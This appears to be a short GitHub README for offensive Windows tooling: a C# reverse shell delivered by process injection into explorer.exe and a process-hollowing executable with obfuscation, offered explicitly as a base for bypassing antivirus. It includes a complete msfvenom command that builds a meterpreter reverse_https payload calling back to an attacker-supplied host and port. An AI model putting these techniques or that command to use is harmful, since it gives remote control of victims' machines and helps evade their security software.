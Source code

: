 # ReverseShell and ProcessHollowing for Windows
Here is a simple reverse shell via process injection in explorer.exe written in C#, based on the .NET Framework.

I also shared a simple process hollowing PE with obfuscation as a base to upgrade it for bypassing AV.

You will need to generate a shellcode based on the target architecture : msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=<LP> -f exe -o reverse_shell.exe
